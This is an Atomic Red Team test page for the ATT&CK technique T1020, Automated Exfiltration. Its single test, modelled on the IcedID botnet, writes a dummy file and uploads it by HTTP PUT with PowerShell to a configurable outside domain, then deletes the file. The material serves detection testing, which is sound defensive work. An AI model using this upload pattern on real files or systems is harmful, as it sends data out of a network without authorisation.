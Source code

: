 ```yaml
---
tags: [T1020, atomic_test]
filename: "[[T1020|T1020 - Automated Exfiltration]]"
---
```


# T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection. 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
